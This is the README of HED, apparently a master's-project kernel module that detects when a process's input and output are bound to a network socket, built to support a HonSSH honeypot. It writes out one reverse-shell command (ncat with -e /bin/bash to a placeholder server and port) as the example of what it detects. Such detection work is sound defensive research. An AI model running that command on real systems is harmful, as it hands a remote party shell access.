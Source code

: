 # HED

<p align="center">
	<img alt="Logo" src="./doc/HEDLogo.png" height="220" width="220">
 </p>

HED is a tool developed for detecting when an "engage" is performed. What is an engage? Well... we are refer as "engage" to the procedure of multiplexing the input & output of a child process through a socket. For example: if you execute the following command:

	ncat server port -e /bin/bash

An engage to the server:port executing an instance of *BASH* is performed.

HED needs another party, contained inside the directory *Handler*, who receives the information related to the engage (i.e. IP Address & TCP Port) so it captures the traffic of this stream.

This is useful in certain environments. Our motivation is to enhance the functionality of the software *HonSSH*:

	https://github.com/tnich/honssh

All this project is part of a project of a master, implementing a Honeypot; I am opened to questions and suggestions.
It is important to note that it is necessary to modify the Linux kernel before adding the kernel module... This is not very flexible... maybe I will implement a new version "ALL-IN-ONE" in a future.

The modifies files are the following:

	sched.h
	fork.c
	exit.c

The base Linux kernel version we have used is 4.1.18; but it can work in a large number of versions.

Fernando Vañó
